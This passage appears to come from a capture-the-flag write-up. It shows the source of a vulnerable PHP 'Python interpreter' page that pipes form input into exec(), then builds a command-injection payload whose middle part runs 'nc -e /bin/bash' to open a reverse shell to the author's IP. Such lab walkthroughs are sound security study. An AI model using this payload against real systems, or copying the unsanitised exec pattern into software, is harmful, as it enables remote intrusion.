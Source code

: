 ![](/img/devlife-swap-nano.gif)

### interpreter.php

I had guessed earlier that the php was using `"` and that's why I
couldn't do `print "A"`. Once I got a shell, I decided to take a look at
`interpreter.php`:



    .md>                               
    <body>       
    <h1> Online Python 2.7 Interpreter </h1>                          
    <h1></h1>                                                         
    <form action="interpreter.php" method="post">
    Python Instruction <input type="text" name="com"><br>                     
    <input type="submit">                                                      
    </form>                                         

    <?php                                                                
    $command = '/usr/bin/python -c "%s" ' ;   
    $test =  $_POST["com"] ;                                                    
    $out = sprintf($command, $test) ;                             

    $hadi = exec($out);
    echo $hadi ;                                       
    ?>



So it is using my input to build a string, and then executing it with
system.

So some examples of input:

  Input           Result                               Comment
  --------------- ------------------------------------ ---------------------------
  `print 'a'`     `/usr/bin/python -c "print 'a'"`     Works
  `print "a"`     `/usr/bin/python -c "print "a""`     Doesn't work. `"`s break.
  `print \"a\"`   `/usr/bin/python -c "print \"a\""`   Works

That's neat, but there's also an injection opportunity here. I'll enter:



    print 'A'"; nc -e /bin/bash 10.254.1.47 443; python -c "print 'B'



The script will create the string:



    /usr/bin/python -c "print 'A'"; nc -e /bin/bash 10.254.1.47 443; python -c "print 'B'"



That is just three commands:



    /usr/bin/python -c "print 'A'";
    nc -e /bin/bash 10.254.1.47 443;
    python -c "print 'B'"

